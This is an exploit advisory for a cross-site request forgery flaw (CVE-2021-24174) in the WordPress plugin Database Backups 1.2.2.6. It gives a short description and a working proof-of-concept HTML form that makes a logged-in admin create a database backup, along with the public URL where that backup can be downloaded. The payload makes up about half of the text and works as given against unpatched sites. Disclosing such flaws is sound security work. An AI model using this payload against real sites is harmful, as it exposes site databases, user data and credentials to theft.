 CSRF
----

    # Exploit Title: WordPress Plugin Database Backups 1.2.2.6 - 'Database Backup Download' CSRF
    # Date: 2/10/2021
    # Author: 0xB9
    # Software Link: https://wordpress.org/plugins/database-backups/
    # Version: 1.2.2.6
    # Tested on: Windows 10
    # CVE: CVE-2021-24174

    1. Description:
    This plugin allows admins to create and download database backups. A CSRF can create DB backups stored publicly in the uploads directory.

    2. Proof of Concept:

    <form action="http://localhost/wp-admin/tools.php?page=database-backups" method="post">
        <input type="hidden" name="do_backup_manually" value="1">
        <input type="submit" class="button button-primary" value="Do backup" autocomplete="off">
    </form>

    Backups can be accessed by the following URL.
    http://localhost/wp-content/uploads/database-backups/